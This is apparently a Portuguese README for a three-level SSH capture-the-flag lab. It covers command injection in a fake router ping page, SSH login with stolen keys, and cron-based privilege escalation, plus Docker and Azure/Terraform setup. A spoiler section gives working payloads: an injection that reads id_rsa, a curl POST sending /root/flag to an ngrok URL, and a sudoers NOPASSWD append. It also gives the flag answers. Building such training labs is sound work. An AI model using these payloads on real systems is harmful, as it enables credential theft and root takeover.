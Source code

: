 # ssh-game
Repositorio com objetivo de armazenar desafio de hacking relacionado a SSH

## nivel 1
Neste nível, o objetivo é que as pessoas possam navegar em uma interface que se pareça com um roteador.
Até encontrarem uma ferramenta de ping, que utiliza  command line para executar o teste.
Através disto, serão desafiadas a encontrar as chaves de conexão SSH do roteador, seguindo para o desafio nivel 2.
Terá uma flag no arquivo id_rsa, o mais importante para este momento.

## nivel 2
Este nível, é quase uma extensão, em termos de dificuldade, do nível 1.
A pessoa que obtiver as chaves, deverá trazê-las para sua máquina, modificar o nível de permissionamento deste (caso exista, se tratando de windows, isso não faz a menor diferença) e, depois, utilizar para conectar-se via SSH ao pseudo-roteador.
Após os passos descritos acima, é necessário montar o ambiente necessário para conexão via SSH, se for Windows, basta utilizar o Putty, se Linux, já existirá o ssh client nativo.
Ao obter a conexão, será exibido um BANNER de login com algumas instruções e a próxima flag.

## nivel 3
Este nível, é o mais difícil e aqui está como finalização, após este o comprometimento da máquina se dá por completo.
A pessoa que estiver jogando, será convidada a ler o conteúdo do arquivo /root/flag.
Para isso, será necessário realizar um privilege escalation através de uma tarefa cron.
Com isso, será demonstrado que, é possível ler uma tabela cron e saber se existem scripts desprotegidos e sendo executados como root.

## O que preciso instalar?
  * Docker
    Estes desafios estão FORTEMENTE acoplados a [Docker](https://docs.docker.com/get-docker/) e [Docker Compose](https://docs.docker.com/compose/install/). 
    O desafio 2 considera que existe Docker localmente para que possa iniciar sessões com experiência de SSH mas conectando-se ao tty e stdin dos containers executados.
  * Nodejs 12.x (via NVM ([linux](https://github.com/nvm-sh/nvm)/[windows](https://github.com/coreybutler/nvm-windows/releases)) ou [download direto](https://nodejs.org/en/))
  * SSH client (para Windows, [putty](https://www.putty.org/))
  * [AZ Cli](https://docs.microsoft.com/en-us/cli/azure/install-azure-cli)
  * Terraform (caso queira publicar a infra no Azure via AzureRM)

## Já instalei docker e docker-compose, o que faço agora?
Depois de ter instalado o que era necessário, basta rodar:
```bash
docker-compose build
docker-compose up
```

No caso de estar em ambiente Windows, o sock do docker é diferente, utilize:
```powershell
docker-compose -f docker-compose.windows.yml build
docker-compose -f docker-compose.windows.yml up
```

Os desafios estarão dispoíveis conforme descrito abaixo:
* nivel 1 - [http://localhost:4444](http://localhost:4444)
* nivel 2 - tcp://localhost:2222
* nivel 3 - usa a mesma conexão do nível 2

## Publicando na Azure
Após instalar `AZ Cli` e `terraform` de acordo com as recomendações para o seu sistema operacional, é necessário iniciar algumas etapas:
1. `az login` (para logar em sua conta, basta seguir o passo a passo ao abrir o navegador)
2. `az account show` (para verificar se está utilizando a subscription correta, para trocar veja este [link](https://docs.microsoft.com/en-us/cli/azure/account?view=azure-cli-latest#az_account_set))
3. Na pasta do terraform, `terraform init` (para baixar o provider do Azure, azurerm)
4. `terraform apply` (para que o terraform conecte no azure e crie o plano de provisionamento)
5. Existem duas variáveis para orientar o terraform a provisionar o ambiente na região correta da Azure e com o prefixo adequado, por padrão, tenho utilizado `var.location=brazilsouth` e `var.prefix=ssh-game` mas não são valores obrigatórios, sinta-se livre para mudar
6. Se estiver de acordo com o plano e a subscription usada, responda com `yes` ao prompt do `terraform`
7. Ao finalizar o provisionamento, o Public IP via `output`, do terraform, será exibido no terminal
8. Por enquanto, a publicação está sendo feita através de um simples git clone do meu repositório, ainda privado.
9. Quando este repositório virar público, não será mais necessário utilizar SSH para dar clone, serão removidas sessões de upload de chave SSH privada e alterado o clone para HTTPS

TLDR para o terraform (ainda precisa de login no `AZ Cli` 
```bash
terraform apply -auto-approve -var='location=brazilsouth' -var='prefix=ssh-game'
```
Leva em torno de 5 minutos para todos os recursos estarem provisionados e disponíveis ao uso.

## Não quero mais cobrança, quero destruir tudo isso ai lá na Azure 
```bash
terraform destroy -auto-approve -var='location=brazilsouth' -var='prefix=ssh-game'
```
Leva em torno de 5 minutos para destruir todos os recursos.


## Informações complementares
Para rodar estes desafios, será necessário ter ngrok instalado e, após isto, remapear, no `docker-compose.yml`, portas de nível root (80 e 22).
Portas altas foram usadas para não ser necessário qualquer privilégio administrativo enquanto desenvolvimento.
A experiência completa se baseia em parecer com um roteador de verdade, portanto, é necessário utilizar portas que sejam também usadas por tal.

### Usando Windows?
Algumas adaptações devem ser feitas para que o desafio seja bem sucedido:
- Ao colar a chave SSH no Notepad ou Visual Studio Code, quebre uma linha no fim do arquivo
- Ao salvar a chave, nomeie-a sem extensão ou extensões .txt ou .ppk
- Não use Putty como cliente SSH. Prefira o cliente SSH incluído no Windows 10 (Fall Creators Update ou mais recente), a partir do comando `ssh`


## ** SOLUÇÕES - ESTE ESPAÇO É PARA SPOILERS DO GAME, NÃO ABRA CASO QUEIRA JOGAR DE VERDADE **
<details><summary>TUDO BEM, ME MOSTRA LOGO COMO RESOLVE ESSA COISA TODA!</summary>
<p>

### Nivel 1
Para conseguir acesso às chaves, utilize comandos shell com `ls -la` e `cat` nos arquivos da pasta `.ssh` 
```bash
google.com && ls -la .ssh  && cat .ssh/id_rsa.pub && cat .ssh/id_rsa
```

FLAG: L3CTF{y0u_sh311_n0t_p4ss} 

### Nivel 2
Para conseguir uma flag, basta conectar-se via SSH na máquina.
A ideia é que a pessoa consiga entender o nome do usuário para logar (via chave pública, id_rsa.pub, no comentário do arquivo) e baixe o conteúdo da chave privada (id_rsa)
O IP já terá sido fornecido para as pessoas jogarem.
Abaixo, a chave privada foi criada em /tmp/id_rsa (copiar e colar conteúdo do nivel 1)
```bash
ssh -i /tmp/id_rsa -o StrictHostKeyChecking=no -p 22 temp_user@191.234.178.199
```

FLAG: L3CTF{y34h_y34h_g0t_th3_k3ys_n0t_th3_ch33s3_th3_k3ys}

### Nivel 3
Uma das possíveis soluções é, criar um arquivo `log.sh`, na home do temp_user para que faça um :
- cat /root/flag > /home/temp_user/flag.txt && chmod 777 /home/temp_user/flag.txt 
- curl -X POST --data-binary @/root/flag [URL_DO_NGROK] 
- echo "temp_user ALL=(ALL) NOPASSWD:ALL" >> /etc/sudoers
Qualquer uma destas soluções habilita a leitura do arquivo /root/flag
O arquivo log.sh pode ser descoberto através de um cat em /etc/crontab

FLAG: L3CTF{y34h_y34h_g0t_th3_k3ys_n0t_th3_ch33s3_th3_k3ys}

</p>
</details>

